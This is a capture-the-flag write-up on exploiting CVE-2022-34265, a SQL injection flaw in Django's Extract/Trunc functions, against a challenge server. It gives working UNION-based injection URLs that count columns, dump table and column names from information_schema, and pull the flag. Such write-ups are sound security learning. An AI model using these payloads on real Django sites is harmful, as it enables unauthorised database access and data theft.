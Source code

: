 ![](attachments/20220729170015.png)

So we have a web application running on port 80 and the homepage says this

![](attachments/20220729170135.png)

So we know it's a CVE and Google gave the following results

![](attachments/20220729170337.png)

It looks like we have [CVE-2022-34265](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-34265) which is an SQL injection vulnerability in Django. The Tower instruction was misleading though since it says it's a CVE for PHP framework but it's actually a CVE for Django which is a Python framework.

Visiting the paths specified in the homepage, we got the following results

![](attachments/20220729171727.png)

![](attachments/20220729171758.png)

I did some more research about the CVE and found a PoC here https://github.com/aeyesec/CVE-2022-34265

Trying the attack mentioned in the PoC resulted in Django error page for `/extract` path but there was no error on `/trunc` path.

![](attachments/20220729172205.png)

![](attachments/20220729172300.png)

So I tried a simpler attack by adding a single quote (`'` or `%27`) to the `year` parameter and it seems the `/trunc` path may not be vulnerable to SQL injection.

![](attachments/20220729172723.png)

![](attachments/20220729172640.png)

It also seems the challenge site is not setup the same way as the PoC site e.g. It uses MariaDB instead of PostgreSQL.

From now on it was a payload guessing game for a couple of hours until I tried using `UNION` statement like this

```
http://35.240.166.185/test/extract/?lookup_name=year FROM start_datetime)) OR 1=1 UNION SELECT 1--
```

and got an interesting error message

![](attachments/20220729173355.png)

After some more testing, I found that it needs 7 columns for `UNION` statement to work. The query I used now looks like this

```
http://35.240.166.185/test/extract/?lookup_name=year FROM start_datetime)) OR 1=1 UNION SELECT 1, 2, 3, 4, 5, 6, 7--
```

but now there is another error message

![](attachments/20220729173603.png)

It seems Django tried to convert the query result into 'isoformat' so it must be related to some date/time stuff...

I took a step back and looked at the output of the normal `/extract` query result and found that each element in the array looks like this

```json
{
  "model": "secplayground.experiment",
  "pk": null,
  "fields": {
    "start_datetime": "2015-05-03T00:00:00",
    "start_date": "2015-05-03",
    "start_time": "2022-07-29T09:48:50",
    "end_datetime": "2015-05-10T00:00:00",
    "end_date": "2015-05-10",
    "end_time": "2022-07-29T09:48:50"
  }
}
```

My guess is the 7 columns in the query we tested above should correspond to the "pk", "start_datetime", "start_date", "start_time", "end_datetime", "end_date", "end_time" attributes respectively.

Following this theory, the columns that need to be in datetime format should be the last 6 columns. So I adjusted the query accordingly by using `now()` instead of `2..7`

```
http://35.240.166.185/test/extract/?lookup_name=year FROM start_datetime)) OR 1=1 UNION SELECT 1, now(), now(), now(), now(), now(), now()--
```

and now we got a promising output

![](attachments/20220729185014.png)

To confirm that it works, I tried changing `1` to `"AAA"`

```
http://35.240.166.185/test/extract/?lookup_name=year FROM start_datetime)) OR 1=1 UNION SELECT "AAA", now(), now(), now(), now(), now(), now()--
```

And this time we got this. So we can use "pk" column as placeholder for the thing we want to query.

![](attachments/20220729185912.png)

Now we need to figure out the name of the table and column in the database that contains the flag. This can be done with two more queries...

```
http://35.240.166.185/test/extract/?lookup_name=year FROM start_datetime)) OR 1=1 UNION SELECT CONCAT(table_name, '~', column_name), now(), now(), now(), now(), now(), now() FROM information_schema.columns--
```

This will dump all table and column names in the database into the "pk" column.

After searching for `"flag"` using the browser's search function, we found the prime candidate for table and column names that we need.

![](attachments/20220729190255.png)

So the final query would be

```
http://35.240.166.185/test/extract/?lookup_name=year FROM start_datetime)) OR 1=1 UNION SELECT flag_value, now(), now(), now(), now(), now(), now() FROM FLAG--
```

And now we got the flag.

![](attachments/20220729190813.png)

```
Flag: web{Bwq786AthM}
```
